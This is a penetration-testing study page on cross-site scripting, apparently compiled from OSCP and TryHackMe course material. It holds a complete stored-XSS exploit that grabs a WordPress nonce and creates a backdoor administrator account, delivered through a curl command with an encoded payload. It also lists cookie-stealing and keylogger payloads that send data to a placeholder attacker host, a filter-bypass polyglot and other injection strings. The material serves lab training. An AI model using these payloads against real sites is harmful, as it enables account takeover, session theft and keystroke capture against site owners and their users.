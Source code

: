 ```yaml
---
description: Cross-site Scripting -based on JavaScript
---
```


# XSS

S**pecial characthers for HTML and JavaScript**

```
< > ' " { } ;
```

Let's describe the purpose of these special characters. HTML uses "<" and ">" to denote _elements_,[1](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/introduction-to-web-application-attacks/cross-site-scripting/identifying-xss-vulnerabilities#fn1)the various components that make up an HTML document. JavaScript uses "{" and "}" in function declarations. Single (') and double (") quotes are used to denote strings, and semicolons (;) are used to mark the end of a statement.



## **Privilege escalation via XSS**

Below steps are taken from OSCP book. This page describes the same [steps](https://shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/)

As mentioned, in order to perform any administrative action, we need to first gather the nonce. We can accomplish this using the following JavaScript function:

```
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
```

> Listing 27 - Gathering WordPress Nonce

This function performs a new HTTP request towards the **/wp-admin/user-new.php** URL and saves the nonce value found in the HTTP response based on the regular expression. The regex pattern matches any alphanumeric value contained between the string _/ser" value="_ and double quotes.

Now that we've dynamically retrieved the nonce, we can craft the main function responsible for creating the new admin user.

```
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

> Listing 28 - Creating a New WordPress Administrator Account

Highlighted in this function is the new backdoored admin account, just after the nonce we obtained previously. If our attack succeeds, we'll be able to gain administrative access to the entire WordPress installation.

To ensure that our JavaScript payload will be handled correctly by Burp and the target application, we need to first minify it, then encode it.

To minify our attack code into a one-liner, we can navigate to JS Compress.[8](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/introduction-to-web-application-attacks/cross-site-scripting/privilege-escalation-via-xss#fn8)

<figure><img src="https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PWKR/imgs/webintro/2a2f4dbcc913552bb7d442fa94655ba3-xss6.png" alt="Figure 30: Minifying the XSS attack code"><figcaption><p>Figure 30: Minifying the XSS attack code</p></figcaption></figure>

Once we have clicked on _Compress JavaScript_, we'll copy the output and save it locally.

As a final attack step, we are going to encode the minified JavaScript code, so any bad characters won't interfere with sending the payload. We can do this using the following function:

```
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

> Listing 29 - JS Encoding JS Function

The _encode\_to\_javascript_ function will parse the minified JS string parameter and convert each character into the corresponding UTF-16 integer code using the _charCodeAt_[9](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/introduction-to-web-application-attacks/cross-site-scripting/privilege-escalation-via-xss#fn9) method.

Let's run the function from the browser's console.

<figure><img src="https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PWKR/imgs/webintro/90fa49369352cbf0dc80ea7dd2c19564-xss7.png" alt="Figure 31: Encoding the Minified JS with the Browser Console"><figcaption><p>Figure 31: Encoding the Minified JS with the Browser Console</p></figcaption></figure>

We are going to decode and execute the encoded string by first decoding the string with the _fromCharCode_[10](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/introduction-to-web-application-attacks/cross-site-scripting/privilege-escalation-via-xss#fn10) method, then running it via the _eval()_[11](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/introduction-to-web-application-attacks/cross-site-scripting/privilege-escalation-via-xss#fn11) method. Once we have copied the encoded string, we can insert it with the following **curl** command and launch the attack:

```
kali@kali:~$ curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,41,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59))</script>" --proxy 127.0.0.1:8080
```

> Listing 30 - Launching the Final XSS Attack through Curl

Before running the curl attack command, let's start Burp and leave Intercept on.

We instructed curl to send a specially-crafted HTTP request with a User-Agent header containing our malicious payload, then forward it to our Burp instance so we can inspect it further.

After running the curl command, we can inspect the request in Burp.

<figure><img src="https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PWKR/imgs/webintro/b0c5559626ac4e29fa8040c431e7aaa8-xss8.png" alt="Figure 32: Inspecting the Attack in Burp"><figcaption><p>Figure 32: Inspecting the Attack in Burp</p></figcaption></figure>

Everything seems correct, so let's forward the request by clicking _Forward_, then disabling Intercept.

At this point, our XSS exploit should have been stored in the WordPress database. We only need to simulate execution by logging in to the OffSec WP instance as admin, then clicking on the Visitors plugin dashboard on the bottom left.

<figure><img src="https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PWKR/imgs/webintro/d64d2d202ef9d66aa74802ab070c77b1-xss9.png" alt="Figure 33: Loading Visitors Statistics"><figcaption><p>Figure 33: Loading Visitors Statistics</p></figcaption></figure>

We notice that only one entry is present, and apparently no User-Agent has been recorded. This is because the User-Agent field contained our attack embedded into "\<script>" tags, so the browser cannot render any string from it.

By loading the plugin statistics, we should have executed the malicious script, so let's verify if our attack succeeded by clicking on the _Users_ menu on the left pane.

<figure><img src="https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PWKR/imgs/webintro/9d0dac705ec8e4521f66c5b752de9739-xss10.png" alt="Figure 34: Confirming that our Attack Succeeded"><figcaption><p>Figure 34: Confirming that our Attack Succeeded</p></figcaption></figure>

Excellent! Due to this XSS flaw, we managed to elevate our application privileges from a standard user to administrator via a specially-crafted HTTP request.

We could now advance our attack and gain access to the underlying host by crafting a custom WordPress plugin with an embedded web shell. We'll cover web shells more in-depth in an another Module.

**Session Stealing:**

```
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

**Key Logger:**

```

<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

**Business Logic:**

```
<script>user.changeEmail('attacker@hacker.thm');</script>
```

**Reflected XXS**

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

**Stored XSS**

As the name infers, the XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.

**DOM Based XSS**

DOM stands for **D**ocument **O**bject **M**odel and is a programming interface for HTML and XML documents. It represents the page so that programs can change the document structure, style and content. A web page is a document, and this document can be either displayed in the browser window or as the HTML source.

DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction.

**Blind XSS**

Blind XSS is similar to a stored XSS in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.

{% hint style="info" %}
A popular tool for Blind XSS attacks is [xsshunter](https://xsshunter.com/).
{% endhint %}

**XSS examples**

```
<script>alert('THM');</script>
"><script>alert('THM');</script>
</textarea><script>alert('THM');</script>
';alert('THM');//
<sscriptcript>alert('THM');</sscriptcript>
/images/cat.jpg" onload="alert('THM');
</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>
```

Polyglots

An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

## CSP evaluator



{% hint style="info" %}
[https://csp-evaluator.withgoogle.com/](https://csp-evaluator.withgoogle.com/) this site can be used to evaluate the Content Security Policy.
{% endhint %}
